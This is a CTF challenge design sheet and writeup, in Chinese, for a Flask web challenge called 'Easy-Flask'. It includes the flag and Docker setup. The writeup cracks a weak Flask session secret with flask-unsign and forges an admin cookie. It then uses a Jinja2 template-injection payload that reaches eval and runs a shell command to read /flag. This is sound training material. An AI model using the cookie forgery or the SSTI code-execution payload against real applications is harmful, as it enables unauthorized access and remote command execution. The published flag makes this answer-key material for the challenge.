 # 永信至诚春秋Game CTF赛题设计说明
### [题目信息]：
出题人|出题时间|题目名字|题目类型|难度等级|题目分值
:-|:-|:-|:-|:-|:-
小路|2020315|Easy-Flask|web|中|\

### [题目描述]：
```
Easy-Flask
```

### [题目考点]：
```
1. flask session
2. flask ssti
```

### [Flag]:
`flag{caa17d46-aeed-49a5-9d5e-e10846e864a3}`



### [题目制作过程]：
1. 可修改源码docker/flag修改flag
2. 使用docker-compose.yml
```
docker-compose build
docker-compose up -d
```
访问`http://your-ip:8000`
出现👇即正常
![](./img/2.png)
### [题目writeup]：
1、使用flask-unsign爆破key并且伪造session
先查看session得到`eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6Imd1ZXN0In0.Xm3Qsg.HxT1GziP0ExJJuxwdp9pn88g58w`
源码注释中有flag位于/flag
![](./img/1.png)
`$ pip3 install flask-unsign`安装flask-unsign,需要使用自带的flask-unsign-wordlist
`$ pip3 install flask-unsign-wordlist`
`flask-unsign --unsign --cookie eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6Imd1ZXN0In0.Xm3Qsg.HxT1GziP0ExJJuxwdp9pn88g58w`
![](./img/3.png)
获得值为`{'_permanent': True, 'username': 'guest'}`
key为admin 伪造
```
λ flask-unsign --sign --cookie "{'_permanent': True, 'username': 'admin'}" --secret "admin"
eyJfcGVybWFuZW50Ijp0cnVlLCJ1c2VybmFtZSI6ImFkbWluIn0.Xm3TVA.I9VRH0trBm3lLTAIuI7t0hTWE2g
```
到达第二层
![](./img/4.png)
？username=admin存在模板注入，使用`username={{3*3}}`测试
![](./img/5.png)
使用通用payload即可
```
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("cat /flag").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
username=复制上面的丢浏览器即可
```
http://192.168.59.132:8000/user?username={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22cat%20/flag%22).read()%27)%20}}%20}%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```
![](./img/6.png)

